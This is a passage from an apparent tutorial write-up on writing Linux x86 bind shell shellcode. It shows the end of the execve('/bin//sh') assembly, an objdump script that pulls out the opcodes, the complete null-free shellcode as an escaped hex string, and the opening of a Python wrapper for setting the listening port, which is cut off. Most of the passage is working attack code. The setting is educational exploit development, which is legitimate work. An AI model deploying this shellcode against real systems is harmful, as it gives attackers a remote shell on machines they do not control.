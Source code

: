 	push 0x68732f6e
	push 0x69622f2f	; note the // at the end, sigsevs without - junk corrupting it?

	mov ebx, esp	; push the addr of our above string (esp) into 1st param

	push eax        ; push 0 onto the stack (2nd param == NULL)
    mov ecx, esp    ; requires a pointer - man page has them for usage

	push eax	; push 0 onto the stack (3rd param == NULL)
	mov edx, esp	; requires a pointer - man page has them for usage

    mov al, 0xb    ; move 11 into EAX register (syscall number)

	int 0x80	; final syscall
```

Dumping the hex for usage:
To extract our hex values for our shell, we can use the following shell script (dump_hex.sh) along with the target object to extract the hex values in a usable fashion. The output can be taken and placed directly into the following python wrapper.

```
root@kali:~/Documents/bindshell/misc# cat dump_hex.sh 
objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Usage:

```
root@kali:~/Documents/bindshell/bindshellsecond_bind_shell# ../../misc/dump_hex.sh second_bind_shell
"\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb\\x31\\xc9\\x51\\x51\\x66\\x68\\x23\\x29\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x89\\xc7\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\xb0\\x0b\\xcd\\x80"

```

As the above output shows, I have successfully tweaked my initial bind shell script to remove all null bytes during the second draft of the shell. The output also includes two \'s because the actual value, allowing direct usage within a python string. We need the two back slash characters to ensure a single \ remains in the final output.

## Wrapper to allow custom port number:
The issue with this shell at the moment, is the static port value used within the defined struct. In order to change the port number we currently need to either open the .asm file, tweak the hex number that is pushed onto the stack and rebuild the shell or remember which hex values in the entire hex string above reference the port.

The more logical solution would be to create a little tool, or wrapper, that takes a user defined integer value, converts this value to hex and then replaces the current port number value before dumping the hex to the screen for use.

The following script is a python wrapper that I have made to allow a custom port to be placed into the script, replacing the hard coded value within the final hex output.

```
root@kali:~/Documents/bindshell# cat wrapper.py 
import sys
import socket
